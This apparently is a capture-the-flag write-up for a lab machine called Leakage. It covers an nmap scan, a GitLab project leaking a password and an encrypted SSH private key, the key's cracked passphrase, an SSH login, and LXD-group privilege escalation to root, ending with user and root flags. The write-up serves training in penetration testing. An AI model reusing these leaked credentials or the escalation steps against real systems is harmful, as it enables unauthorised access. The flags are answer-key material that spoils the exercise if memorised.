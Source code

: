 # LEAKAGE

![](../.gitbook/assets/77fc9d7eaa2c47b584c99141f2288cc9.png)

## NMAP SCAN

```text
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7a:5a:dd:ad:4c:6f:6c:4a:60:06:4f:46:53:77:96:15 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCe9jN7mwM22qkU8huzXMh10ko6SuWXrJQ6T81eSVJlCXqaK+o0lODlx3sS0cUip/B8K10tnhzQ3Q02zEmTz6MV0B5Sn1yFsPgKxOML/Qwb0JGhfGyDjKPbJ65q7PfbQuZIAvOZhb5gPKkq4y5vixzgKj/c1fyou4aereyp7KezyuBUAkT2H3oRduRPq9OUenEzTZjXb+zsol1fDu/8GufrFx4IIdI/4FyV9x9VYHw686wa6D2gT/68YtS24V8tAbywD4A8liLjJWH5RK2dKgQEzjzlte/GOAXMzpyGlo5Uwxd5KY9u5PjgsSHh3w9Rb6EMZjeELik3RTGh4NM4Edeh
|   256 83:ff:c2:72:62:11:4a:86:f9:bf:41:2c:b6:2b:97:a4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFpjeHu3ddMRC0ccsLaHXZQVean4YktBPTxna1BbSvA2hEAxonuOd+khCxkwzK1UO9bcMyK64rHejrqkG3Ud0J0=
|   256 bf:93:3b:d1:6b:ea:32:99:6c:46:75:7b:e2:f1:8a:d9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFmn8hCki3Se/OK4cfSktr1fVyb3WDxTzZzy5rDHtV2y
80/tcp   open  http    syn-ack ttl 63 nginx
|_http-favicon: Unknown favicon MD5: F7E3D97F404E71D302B3239EEF48D5F2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 57 disallowed entries (40 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
| /s/ /snippets/new /snippets/*/edit /snippets/*/raw 
| /*/*.git /*/*/fork/new /*/*/repository/archive* /*/*/activity 
| /*/*/new /*/*/edit /*/*/raw /*/*/blame /*/*/commits/*/* 
| /*/*/commit/*.patch /*/*/commit/*.diff /*/*/compare /*/*/branches/new 
| /*/*/tags/new /*/*/network /*/*/graphs /*/*/milestones/new 
| /*/*/milestones/*/edit /*/*/issues/new /*/*/issues/*/edit 
| /*/*/-/merge_requests/new /*/*/-/merge_requests/*.patch 
|_/*/*/-/merge_requests/*.diff /*/*/-/merge_requests/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://172.31.1.6/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
8060/tcp open  http    syn-ack ttl 63 nginx 1.16.1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.16.1
|_http-title: 404 Not Found
9094/tcp open  unknown syn-ack ttl 63
```

## PORT 80 ENUMERATION

![](../.gitbook/assets/e1fcef04e8014ed099649edf701faca8.png)

![](../.gitbook/assets/51675d215aa84c5ab0162a0d86249571.png)

### REGISTERING

![](../.gitbook/assets/071b0c10e3434a34aac15b7d52f5770f.png)

![](../.gitbook/assets/287e2ba7c4c74df59d79fdd5182235e4.png)

### PROJECTS

![](../.gitbook/assets/b9c6f0d822c041a9aa963f58c2d440c8.png)

#### CMS

* config.php

![](../.gitbook/assets/182252f6861043059249578fd67e9e62.png)

![](../.gitbook/assets/8945fc116a36498795cbd25b6d45f258.png)

![](../.gitbook/assets/393fd03731664405b99786ceb652e725.png)

```text
jonathan@rPHAKWAgMZtjr9at
```

![](../.gitbook/assets/5f7f4e0652784e46ba83cf812bc3e792.png)

![](../.gitbook/assets/8f1db497ce0340f4a3dbe75ab86a19fb.png)

* id\_rsa ENCRYPTED

```text
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,8195A08A6A205E425326C0C3FDC09F06

Xv4NSHR4axwHPGs0La0NztG45JBvlIgDFtPs0okJw/AyskKSNrAmIkzdp3WXuETG
tal1ODeucnIlipYnXPSOuzJAchk3lkyUqpMSB+N8ljCvLnTEY0FZU0HsHkaPWvPB
qTn4tgtrgzO2hI2S/WV5q43vmmTbC7pZraMdGakr/uncbav59CnQl4mr7uygYYuq
CoN26OFPefFA5KIvUWURZfMgaMjFqP0udrj2IXh0LJxpKlrFGItST2KscFcustvS
VU9JQsWoJ9O4JUcb9dUaxU1LYmfFv2PcogN0joipCbPppNL1iBkwusRoCVCFGIM9
7mAccCZBc53t6mV8OCpBXxDmm5V4HrQGnMeZBoguuPPYR54KTbF9qhU4ZOTODVzp
ADP32fau3m13UqzZsBShOsrR6wC6UgtvZ1nuELMjl0GcCZ2UAScD97hy+7vV4O22
umIRm9wQjSWBtY6cZe47usTuzyXPzpaqtZl3Em+2BzUE+JEvETmZ0+EYgGrZ6/qK
dmjt4a4gCIh4VvLxHUnyuL47V2zuKFGT7mmowUXM+g266Q0xjatdHxTbMPCr3T8f
GCW5GxYcB7yjB+jWqr+jtE45F4LG0BY0UMQzZgJ0zT+ZgbafJMd/P8qd6A1hCIqH
cNLBt3aenK8E5/ZFVbTJzFSa7NdEsZNuCAFkLN2Dh8ZZ6811orIMrKDAkVmbf3Fj
I4n/YxWtz3IrmhR/0B5D1+JZW2CkRfzJe/htLAYkOY/G8RdysAyGjLrBegyxDSHD
k1Zr25nc0URcZtDlAvVHd2i/IWfIpsIF+ZcY4+QGx5yH0NNP42K+UMJFSnWdL0CN
K1KiROGNBdNYsP5A0e/Odasz7pnev8w2KdW0pOEAd8ORBLtWcwoYectFdaR8nRhM
8UiOhfk9Y0FsrPb7t9KcjkzWEgZjNbMZrQTyoEaqLGXTO0ESS/gkicz9rFUU7qmQ
u+HWltL3+5C5VO7tvq21MPt7KZ2r0AbxRxRU+Xk55++vJSkNMtONpSaeXe2/+5Fj
w6BOT5KO2eiUwo2C7GBl+aJl8K7a2gtZaOw5KJYGUfs+qcoLo1V2k0qicLvldJnP
11nnwU3mCNtq2SHvwriDIkx0jT7s1s+rlT8E9ySJhyG+9KUdaDnbC5gz9j5pm/QA
CiBQV+czK3/LBt3+dEjyJXP+RjcdDi60Owiu6egrfF5Pms9XY7Z8PG+oHlpH+B6k
IhYbEL/qPcLkHjuwHTFLUICsX/HuBGMBCY6karuf+6AwpaohMT9Wn+Es7UZ3FBSz
BDwZAE68fyOLmJgFY7SlIXQhQcP7dVTc5EaIBCWKIoeLJNEqwKgkLxMxybnz21vk
UdZ6ZOVg49VNb15omZtiEXA2L46BhtxHJEiJR9lKfYw+20++XjwKyy7RPo/vE5Yn
FJgDajrLEvtNxEZ0B/tNdxI61lkOK8+GXRCQU+9WFtsl+I46Ut24L3XUDQQmPyWk
boDDkgA0WnM08LDbA3FK5GBPB6go2HTZ/bidzABx9KpkaJfHzZgQzEMSfTz2Melq
jj5rxHXKJDLV/cLhGAXmTqfhknTbHvBzzfs0GMkZICXlDSjvuDriJd+1DswKckaV
-----END RSA PRIVATE KEY-----
```

* CRACK ID\_RSA

![](../.gitbook/assets/9e7432b90413405c9dbcd4919b813535.png)

```text
scooby
```

## LOGIN SSH

![](../.gitbook/assets/621d06b0486d4a15a334aa6e0a4ad480.png)

## LINPEAS FINDINGS

* LXD GROUP
* SUDO 1.8.21p2
* WTF?

![](../.gitbook/assets/086cf22dcd4547b08e58c8fe77910c78.png)

![](../.gitbook/assets/9197cd5d46a245c88c61d05e0c35cc71.png)

## GROUP LXD PRIVESC

* [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

```text
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

![](../.gitbook/assets/20982566fecf4a82b2a8ac8dbea7ae07.png)

* If you encounter an error

![](../.gitbook/assets/56b67944034241619c2cee260d30a9aa.png)

![](../.gitbook/assets/27109016260d4929b2c5ab88b9bf15d2.png)

## FLAGS

### USER

```text
43d72a36c51d97e8aef93a6e90e4e493
```

### ROOT

```text
933f9f8ba314ab4c8c332ccbbb5f2af1
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

